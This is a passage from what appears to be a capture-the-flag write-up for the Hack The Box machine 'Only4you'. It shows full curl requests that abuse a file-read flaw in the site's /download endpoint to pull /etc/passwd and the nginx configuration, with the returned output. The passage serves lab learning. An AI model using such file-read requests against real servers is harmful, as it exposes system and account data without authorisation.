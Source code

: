 ```bash
curl -i -s -k -X $'POST' \
  -H $'Host: beta.only4you.htb' \
  -H $'User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/116.0' \
  -H $'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8' \
  -H $'Accept-Language: en-US,en;q=0.5' \
  -H $'Accept-Encoding: gzip, deflate' \
  -H $'Content-Type: application/x-www-form-urlencoded' \
  -H $'Content-Length: 17' \
  -H $'Origin: http://beta.only4you.htb' \
  -H $'Connection: close' \
  -H $'Referer: http://beta.only4you.htb/list' \
  -H $'Upgrade-Insecure-Requests: 1' \
  -H $'Sec-GPC: 1' \
  --data-binary $'image=/etc/passwd' \
  $'http://beta.only4you.htb/download'


HTTP/1.1 200 OK
Server: nginx/1.18.0 (Ubuntu)
Date: Thu, 17 Aug 2023 01:00:20 GMT
Content-Type: application/octet-stream
Content-Length: 2079
Connection: close
Content-Disposition: attachment; filename=passwd
Last-Modified: Thu, 30 Mar 2023 12:12:20 GMT
Cache-Control: no-cache
ETag: "1680178340.2049809-2079-393413677"

root:x:0:0:root:/root:/bin/bash
...
john:x:1000:1000:john:/home/john:/bin/bash
lxd:x:998:100::/var/snap/lxd/common/lxd:/bin/false
mysql:x:113:117:MySQL Server,,,:/nonexistent:/bin/false
neo4j:x:997:997::/var/lib/neo4j:/bin/bash
dev:x:1001:1001::/home/dev:/bin/bash
fwupd-refresh:x:114:119:fwupd-refresh user,,,:/run/systemd:/usr/sbin/nologin
_laurel:x:996:996::/var/log/laurel:/bin/false
```

Ok, we've got some names from that like `john` and `dev`.

Here we see, we have both vhosts on nginx, notice the path `/var/www/beta.only4you.htb`:
```bash
curl -s -k -X $'POST' \
  -H $'Host: beta.only4you.htb' \
  -H $'User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/116.0' \
  -H $'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8' \
  -H $'Accept-Language: en-US,en;q=0.5' \
  -H $'Accept-Encoding: gzip, deflate' \
  -H $'Content-Type: application/x-www-form-urlencoded' \
  -H $'Origin: http://beta.only4you.htb' \
  -H $'Connection: close' \
  -H $'Referer: http://beta.only4you.htb/list' \
  -H $'Upgrade-Insecure-Requests: 1' \
  -H $'Sec-GPC: 1' \
  --data-binary $'image=/etc/nginx/sites-enabled/default' \
  $'http://beta.only4you.htb/download'


server {
    listen 80;
    return 301 http://only4you.htb$request_uri;
```